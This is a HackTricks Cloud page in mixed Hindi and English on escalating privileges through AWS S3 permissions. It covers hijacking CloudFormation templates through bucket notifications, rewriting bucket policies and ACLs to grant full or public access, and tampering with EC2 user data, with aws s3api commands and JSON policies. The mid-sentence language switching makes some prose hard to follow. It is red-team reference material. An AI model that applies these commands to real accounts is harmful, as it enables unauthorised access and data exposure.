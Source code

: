 # AWS - S3 Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

एक हमलावर जिसके पास इन दिलचस्प बकेट्स पर ये अनुमतियाँ हैं, संसाधनों को हाईजैक करने और विशेषाधिकार बढ़ाने में सक्षम हो सकता है।

उदाहरण के लिए, एक हमलावर जिसके पास "cf-templates-nohnwfax6a6i-us-east-1" नामक एक क्लाउडफॉर्मेशन बकेट पर ये **अनुमतियाँ** हैं, वह डिप्लॉयमेंट को हाईजैक करने में सक्षम होगा। एक्सेस निम्नलिखित नीति के साथ दिया जा सकता है:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Action":[
"s3:PutBucketNotification",
"s3:GetBucketNotification",
"s3:PutObject",
"s3:GetObject"],
"Resource":[
"arn:aws:s3:::cf-templates-*\/*",
"arn:aws:s3:::cf-templates-*"]
},
{
"Effect":"Allow",
"Action":"s3:ListAllMyBuckets",
"Resource":"*"
}]
}
```
And the hijack is possible because there is a **छोटी समय खिड़की टेम्पलेट अपलोड होने के क्षण से** बकेट में टेम्पलेट **तैनात होने के क्षण तक**। एक हमलावर बस अपने खाते में एक **लैम्ब्डा फ़ंक्शन** बना सकता है जो **तब सक्रिय होगा जब बकेट अधिसूचना भेजी जाती है**, और **हाइजैक** कर लेगा **उस बकेट** का **सामग्री**।

![](<../../../.gitbook/assets/image (174).png>)

The Pacu module [`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn\_\_resource\_injection) can be used to automate this attack.\
For mor informatino check the original research: [https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`, `s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

These are the permissions to **get and upload objects to S3**. Several services inside AWS (and outside of it) use S3 storage to store **config files**.\
An attacker with **पढ़ने की पहुंच** to them might find **संवेदनशील जानकारी** on them.\
An attacker with **लिखने की पहुंच** to them could **डेटा को संशोधित कर सकता है ताकि किसी सेवा का दुरुपयोग किया जा सके और विशेषाधिकार बढ़ाने की कोशिश की जा सके**.\
These are some examples:

* If an EC2 instance is storing the **उपयोगकर्ता डेटा in a S3 bucket**, an attacker could modify it to **EC2 instance के अंदर मनमाना कोड निष्पादित करने के लिए**.

### `s3:PutBucketPolicy`

An attacker, that needs to be **same account से**, if not the error `The specified method is not allowed will trigger`, with this permission will be able to grant himself more permissions over the bucket(s) allowing him to read, write, modify, delete and expose buckets.
```bash
# Update Bucket policy
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>

## JSON giving permissions to a user and mantaining some previous root access
{
"Id": "Policy1568185116930",
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:root"
},
"Action":"s3:ListBucket",
"Resource":"arn:aws:s3:::somebucketname"
},
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:user/username"
},
"Action":"s3:*",
"Resource":"arn:aws:s3:::somebucketname/*"
}
]
}

## JSON Public policy example
### IF THE S3 BUCKET IS PROTECTED FROM BEING PUBLICLY EXPOSED, THIS WILL THROW AN ACCESS DENIED EVEN IF YOU HAVE ENOUGH PERMISSIONS
{
"Id": "Policy1568185116930",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Stmt1568184932403",
"Action": [
"s3:ListBucket"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome",
"Principal": "*"
},
{
"Sid": "Stmt1568185007451",
"Action": [
"s3:GetObject"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome/*",
"Principal": "*"
}
]
}
```
### `s3:GetBucketAcl`, `s3:PutBucketAcl`

एक हमलावर इन अनुमतियों का दुरुपयोग करके **उसे विशेष बाल्टियों पर अधिक पहुंच देने** के लिए कर सकता है।\
ध्यान दें कि हमलावर को उसी खाते से होने की आवश्यकता नहीं है। इसके अलावा, लिखने की पहुंच
```bash
# Update bucket ACL
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectAcl`

एक हमलावर इन अनुमतियों का दुरुपयोग करके बकेट के अंदर विशिष्ट वस्तुओं पर अधिक पहुंच प्राप्त कर सकता है।
```bash
# Update bucket object ACL
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

इन विशेषाधिकारों के साथ एक हमलावर को एक विशिष्ट ऑब्जेक्ट संस्करण पर Acl लगाने में सक्षम होने की उम्मीद है।
```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारे** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** का पालन करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
